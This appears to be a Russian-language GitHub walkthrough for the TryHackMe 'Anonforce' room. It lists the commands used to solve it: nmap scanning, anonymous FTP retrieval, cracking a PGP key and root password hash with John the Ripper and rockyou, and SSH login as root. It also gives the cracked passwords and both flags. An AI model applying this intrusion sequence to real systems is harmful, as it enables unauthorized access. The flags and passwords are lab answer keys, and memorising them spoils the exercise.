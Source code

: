 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Anonforce]() 

Всего 1 заданиe:
## Задание 1
Прочитать user.txt и root.txt

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV <IP>
ftp <IP>
cd home/melodias
get user.txt
cat user.txt
```
```commandline
606083fd33beb1284fc51f411a706af8
```
корень.txt
```commandline
ls /notread
gpg --import private.asc
/data/src/john/run/gpg2john private.asc > pgp.hash
john pgp.hash --wordlist=/data/src/wordlists/rockyou.txt
# xbox360          (anonforce)
gpg --import private.asc
gpg --decrypt backup.pgp
john backup --wordlist=/data/src/wordlists/rockyou.txt
root: hikari
ssh root@<IP>
cat root.txt
```
```commandline
f706456440c7af4187810c31c6cebdce
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)